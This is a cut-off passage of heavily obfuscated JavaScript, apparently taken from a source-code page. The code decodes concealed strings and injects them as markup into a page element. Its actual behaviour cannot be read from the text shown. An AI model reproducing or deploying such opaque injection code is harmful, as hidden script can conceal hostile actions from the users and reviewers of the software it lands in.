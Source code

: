 _0x1286e0(_0x580475);},'tOVEB':_0x3e393f('^a3H',0x30f,0x6fa,0x60d,0x795),'GRZNi':_0x1516b9(0x430,0x903,'u[vL',-0x86,0x131)};let _0x3ae665=document[_0x3e393f('1]I2',0x144,-0x3fe,0x13d,-0x6a)+_0x32f231(0x77e,0x83e,'fdH(',0x869,0x9c8)+_0x1516b9(0xa7a,0x98f,'Kq7x',0x52a,0xf24)](_0x5144e3[_0x30843b(0x3cb,0x2e,-0x91,'hZ@(',0x28f)]);_0x3ae665[_0x7b41e(0x26f,0x199,0x4ad,0x4b3,'[G*k')+_0x30843b(0x700,0x8fb,0x6cb,'hZ@(',0x85c)]=_0x1516b9(0x9e4,0x949,'zPpw',0xe1e,0xb84)+_0x7b41e(0x6ff,-0x1c3,-0x8,0x300,'UWgQ')+_0x30843b(0x888,0xde4,0x8db,'UWgQ',0x5bc)+_0x3e393f('iumN',0x486,0xbe0,0x970,0xe09)+_0x1516b9(0x9db,0x7b4,'KC02',0x86f,0x92b)+_0x1516b9(0xa82,0xbd1,'Mvq4',0xbd8,0x654)+_0x1516b9(0xdf0,0x109c,'u[vL',0x10de,0xd6b)+_0x1516b9(0x3b9,-0xb9,'RV&L',0x7a1,0x2d7)+_0x7b41e(0x2d6,0x568,0x8f0,0x5d4,'!sba')+_0x1516b9(0x759,0x9bd,'VsP5',0xcb2,0x89e)+_0x30843b(0x445,-0x116,0x8b5,'%)8!',0x3b8)+_0x32f231(-0xe9,0x357,'Kq7x',0x87b,0x7ce)+_0x30843b(0xa01,0xf47,0x667,'fdH(',0xeaa)+_0x1516b9(0x71b,0x476,'nmrO',0xa30,0x39c)+_0x7b41e(-0x13b,-0x1fc,0x559,0x154,'UWgQ')+_0x3e393f('3*Z^',0x26a,-0x1c,0x7c,-0x25a)+_0x1516b9(0xcbc,0xd84,'[x2m',0xf22,0xc03)+_0x3e393f('[x2m',0x3f4,-0x2e4,0x116,0x60c)+_0x32f231(0xcfe,0x891,'MUvn',0xd2a,0x751)+_0x3e393f('gMbe',-0x8e,0x4e3,0x2ba,0xec)+_0x1516b9(0x795,0x381,'zPpw',0x58d,0x568)+_0x1516b9(0xd1c,0xa6f,'3*Z^',0xdea,0xc0d)+_0x32f231(0x76a,0xb33,'fdH(',0x93a,0xc2c)+_0x1516b9(0xbd0,0x976,'hZ@(',0xe62,0x1069)+_0x3e393f('zPpw',0x8b2,0x997,0x683,0x3fe)+_0x7b41e(0x69b,0x56c,0x44,0x2b8,'zPpw')+_0x1516b9(0x94e,0x4ba,'HEWi',0x9a9,0x808)+_0x30843b(0x87c,0x8ee,0xc1b,'GJML',0x69e)+_0x30843b(0x3a6,0x41b,-0x50,'1]I2',0x2d4)+_0x1516b9(0xbec,0x10a4,'zPpw',0xd68,0xf6f)+_0x1516b9(0x93f,0x98d,'GJML',0xc16,0x7b8)+_0x32f231(0xf3,0x315,'zPpw',-0xd5,0x4c1)+_0x7b41e(0x76d,0x52a,0xc88,0x7f4,'U12N')+_0x7b41e(0xc7b,0xafc,0x9dc,0x7ee,'%BlB')+_0x1516b9(0xd29,0xe17,'3*Z^',0x1066,0xaa5)+_0x32f231(0x240,0x6a2,'!sba',0x5cd,0x827)+_0x7b41e(0x72d,0x59a,-0x17d,0x1d2,'U!nG')+_0x32f231(0x9f1,0x75a,'ELD4',0x88f,0xc26)+_0x32f231(0xf22,0x9cf,'nm$w',0xe1c,0xd79)+_0x7b41e(0x6e6,0x24,0x829,0x435,'erML')+_0x3e393f('nm$w',0x7af,-0x1ce,0x332,0x65)+_0x30843b(0x909,0x5ba,0x97f,'!Ns0',0x428)+_0x7b41e(0x7c0,0xe8b,0xf75,0xa1a,'KC02')+_0x5144e3[_0x32f231(0x198,0x327,'nmrO',0x332,0x50c)](_0x15953d)+(_0x32f231(-0x154,0x400,'cNeT',0x76e,0x165)+_0x30843b(0x9fe,0x8b9,0xd00,'KC02',0x68d)+_0x3e393f('GJML',0x180,-0x2f5,0x207,0x69)+_0x1516b9(0x98f,0xcc6,'Kq7x',0x798,0xdd7)+_0x1516b9(0x66f,0x584,'VsP5',0x1fa,0x6eb)+_0x3e393f('Mvq4',0x388,0x6e0,0x330,0x31b)+_0x7b41e(-0x3d9,0x5ac,-0x3b7,0x130,'zPpw')+_0x3e393f('&p@3',0x8d2,0xde3,0xa4a,0xd14)+_0x3e393f('erML',0xc02,0xf81,0xb13,0x655)+_0x1516b9(0x80b,0x5a5,'[x2m',0xd50,0x907))+_0x5144e3[_0x1516b9(0x731,0xc0b,'ELD4',0xb77,0x741)](_0x3c1dc6)+(_0x3e393f('%)8!',-0xd8,0x1ec,0x103,0x62c)+_0x30843b(0x348,0x15c,0x68d,'hZ@(',-0xb6)+_0x3e393f('VsP5',0x298,-0x267,0x70,-0x312)+_0x1516b9(0x91b,0xa7d,'U12N',0x8a6,0x4f6)+_0x30843b(0x5d0,0x961,0x152,'f7zP',0x519)+_0x30843b(0x806,0xaea,0xacb,'RV&L',0xc2c)+_0x32f231(0xfc5,0xb50,'&p@3',0x8db,0x7ab)+_0x3e393f('Q^as',0x595,0x265,0xe1,0x1e7)+_0x30843b(0x7e9,0x8cc,0xa5c,'gMbe',0x749)+_0x3e393f('2IEG',-0x27e,-0x13,0x1c9,-0x89)+_0x3e393f('HEWi',0xd68,0xef9,0xa73,0xca1)+_0x7b41e(-0x22d,0x415,0x2da,0x2b4,'HEWi')+_0x3e393f('MUvn',0x406,0x201,0xc2,0x369)+_0x30843b(0xbdf,0x70b,0xfe0,'ELD4',0x67b)+_0x32f231(0x7f6,0x776,'^a3H',0xb56,0x83a)+_0x30843b(0x7ee,0xcf9,0x6f0,'jDQ%',0x378)+_0x30843b(0x5c7,0x15f,0x9ab,'yY7p',0x154)+_0x7b41e(0xf1b,0x906,0xbd0,0xa93,'!Ns0')+_0x32f231(0x5c8,0x795,'&p@3',0x5bc,0xb2b)+_0x32f231(0x4b8,0x2df,'[x2m',0x4d8,0x83)+_0x7b41e(0xe51,0x60c,0x940,0x98c,'U!nG')+_0x3e393f(']lRx',-0x173,-0x3dc,0x124,0x5e)+_0x30843b(0xbed,0x793,0x101e,'f7zP',0x929)+_0x32f231(0x5f0,0x519,'UWgQ',0x46a,0x6a5)+_0x3e393f('[G*k',-0x3da,0x2cb,0x147,-0x206)+_0x32f231(0x2b0,0x6e3,'%BlB',0x574,0x394)+_0x30843b(0xb5a,0x647,0xdf8,'GJML',0xb59)+_0x7b41e(0x80c,0x17,0x917,0x56b,'k@mY')+_0x30843b(0x622,0x796,0x289,']lRx',0xada)+_0x30843b(0x37f,-0x1b5,0x528,'u[vL',0x89f))+_0x5144e3[_0x1516b9(0x458,0x266,'vG)e',0x8b4,0x5b0)](_0x3398b3)+(_0x3e393f('GJML',0x1b3,0x169,0x299,-0x1e1)+_0x1516b9(0x47e,0x862,'k@mY',0x402,0xf1)+_0x3e393f('ELD4',0xaaa,0x3b8,0x688,0xb42)+_0x1516b9(0x87c,0xb45,'gMbe',0x702,0xd0e)+_0x3e393f('3*Z^',0x654,0x40a,0x2bf,0x545)+_0x32f231(0xaeb,0x805,'[x2m',0x838,0xa33)+_0x7b41e(0xa2b,0x735,0xc93,0x7e8,'k3c7')+_0x3e393f('RV&L',-0x21c,-0xa8,0x274,0x7d0)+_0x32f231(0x279,0x424,'%BlB',-0x12a,-0x77)+_0x30843b(0x765,0xa20,0x928,'VsP5',0xa01)+_0x32f231(0x1f3,0x540,'f7zP',0xa6f,0x806)+_0x3e393f('zPpw',0xc87,0xa88,0x93a,0xde0))+_0x5144e3[_0x3e393f('vG)e',0x462,0xcb8,0x8f6,0x3c8)](_0x84ae7b)+(_0x1516b9(0xc34,0x875,'erML',0xd2b,0xb7c)+_0x32f231(0x5af,0xaff,'GJML',0x83d,0x6df)+_0x7b41e(0x5a1,0x636,0x468,0x2fd,'jCq8')+_0x30843b(0x6d6,0x5a5,0x45b,'iumN',0xc31)+_0x7b41e(0x56e,-0x158,0x6ef,0x316,'*dJk')+_0x1516b9(0x4df,0x46c,'RV&L',0x225,0x860)+_0x3e393f('%BlB',0x684,0x1e3,0x395,0x12b)+_0x1516b9(0xa37,0xc57,']lRx',0xd0f,0x6ba)+_0x30843b(0x7b5,0x8ae,0x594,'GJML',0x8be)+_0x3e393f('1]I2',0x1dc,0x1ec,0x4e3,0x17a)+_0x3e393f('f7zP',0x75e,0x58f,0xa8b,0xe9b)+_0x7b41e(0x632,0x1a3,-0x67,0x37e,'^a3H')+_0x32f231(0x9e5,0x825,']lRx',0x589,0x878)+_0x30843b(0x396,0x747,0x2d1,'3*Z^',0x7b4)+_0x30843b(0x560,0x15e,0x2a7,'gMbe',0x266)+_0x7b41e(0x19d,0x95f,0x174,0x4c0,'u[vL')+_0x32f231(0xa87,0x68c,'Mvq4',0xb02,0xbb6)+_0x1516b9(0x375,-0x122,'MUvn',0x495,0x3e5)+_0x7b41e(0x47a,0x2ba,0x245,0x6f0,'UWgQ')+_0x7b41e(0x841,0xcd0,0x5a9,0xa71,'nm$w')+_0x3e393f('Nph!',0x3de,0x64c,0x5c6,0x59d)+_0x1516b9(0xd93,0xeef,'gMbe',0xb8f,0xb4f)+_0x7b41e(-0x49a,0x4cb,0x52c,0xbc,'zPpw')+_0x7b41e(0x17,0x5e2,0x66,0x1fa,'U12N')+_0x1516b9(0xbf9,0xa34,'2IEG',0xe96,0xbb2)+_0x3e393f('%)8!',0x2a8,0x3a9,0x264,0x740)+_0x1516b9(0x52b,0x7d3,'2IEG',0xa5,0x7b5)+_0x30843b(0x6fc,0x8f5,0x8fd,'KC02',0x36c)+_0x30843b(0xaf9,0xd44,0x994,'UWgQ',0xed1)+_0x1516b9(0xa55,0xb26,'3nsn',0xd46,0x975)+_0x3e393f(